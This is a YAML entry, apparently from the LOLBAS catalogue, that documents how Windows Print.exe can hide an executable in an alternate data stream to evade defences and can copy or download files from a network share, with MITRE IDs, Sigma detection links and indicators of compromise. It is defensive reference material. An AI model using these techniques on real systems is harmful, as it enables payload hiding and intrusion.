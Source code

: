 ```yaml
---
Name: Print.exe
Description: Used by Windows to send files to the printer
Author: Oddvar Moe
Created: 2018-05-25
Commands:
  - Command: print /D:{PATH_ABSOLUTE}:file.exe {PATH_ABSOLUTE:.exe}
    Description: Copy file.exe into the Alternate Data Stream (ADS) of file.txt.
    Usecase: Hide binary file in alternate data stream to potentially bypass defensive counter measures
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: print /D:{PATH_ABSOLUTE:.dest.exe} {PATH_ABSOLUTE:.source.exe}
    Description: Copy FileToCopy.exe to the target C:\ADS\CopyOfFile.exe
    Usecase: Copy files
    Category: Copy
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: print /D:{PATH_ABSOLUTE:.dest.exe} {PATH_SMB:.source.exe}
    Description: Copy File.exe from a network share to the target c:\OutFolder\outfile.exe.
    Usecase: Copy/Download file from remote server
    Category: Copy
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\print.exe
  - Path: C:\Windows\SysWOW64\print.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_print_remote_file_copy.yml
  - IOC: Print.exe retrieving files from internet
  - IOC: Print.exe creating executable files on disk
Resources:
  - Link: https://twitter.com/Oddvarmoe/status/985518877076541440
  - Link: https://www.youtube.com/watch?v=nPBcSP8M7KE&lc=z22fg1cbdkabdf3x404t1aokgwd2zxasf2j3rbozrswnrk0h00410
Acknowledgement:
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
---
```

